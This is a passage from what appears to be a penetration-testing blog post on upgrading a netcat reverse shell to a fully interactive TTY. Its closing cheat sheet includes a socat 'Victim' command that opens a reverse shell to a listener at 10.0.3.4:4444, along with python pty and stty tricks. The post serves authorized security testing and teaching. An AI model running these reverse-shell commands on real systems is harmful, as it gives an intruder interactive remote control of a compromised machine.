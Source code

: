[![Foreground and reset](https://blog.ropnop.com/images/2017/07/fg_reset.png)](https://blog.ropnop.com/images/2017/07/fg_reset.png)

_Note: I did not type the `nc` command again (as it might look above). I actually entered `fg`, but it was not echoed. The `nc` command is the job that is now in the foreground. The `reset` command was then entered into the netcat shell_

After the `reset` the shell should look normal again. The last step is to set the shell, terminal type and stty size to match our current Kali window (from the info gathered above)

|                           |                                                                                                     |
| ------------------------- | --------------------------------------------------------------------------------------------------- |
| ```<br>1<br>2<br>3<br>``` | ```bash<br>$ export SHELL=bash<br>$ export TERM=xterm256-color<br>$ stty rows 38 columns 116<br>``` |

The end result is a fully interactive TTY with all the features we’d expect (tab-complete, history, job control, etc) all over a netcat connection:

[![Netcat full TTY](https://blog.ropnop.com/images/2017/07/netcat_full_tty.png)](https://blog.ropnop.com/images/2017/07/netcat_full_tty.png)

The possibilities are endless now. Tmux over a netcat shell?? Why not? :D

[![Tmux over Netcat](https://blog.ropnop.com/images/2017/07/tmux_over_netcat-1.png)](https://blog.ropnop.com/images/2017/07/tmux_over_netcat-1.png)

# tl;dr cheatsheet

Cheatsheet commands:

**Using Python for a psuedo terminal**

|                 |                                                                  |
| --------------- | ---------------------------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>python -c 'import pty; pty.spawn("/bin/bash")'<br>``` |

**Using socat**

|                                     |                                                                                                                                                                      |
| ----------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ```<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>#Listener:<br>socat file:`tty`,raw,echo=0 tcp-listen:4444<br><br>#Victim:<br>socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444<br>``` |

**Using stty options**

|                                                                                          |                                                                                                                                                                                                                                                                                 |
| ---------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ```<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```bash<br># In reverse shell<br>$ python -c 'import pty; pty.spawn("/bin/bash")'<br>Ctrl-Z<br><br># In Kali<br>$ stty raw -echo<br>$ fg<br><br># In reverse shell<br>$ reset<br>$ export SHELL=bash<br>$ export TERM=xterm-256color<br>$ stty rows <num> columns <cols><br>``` |
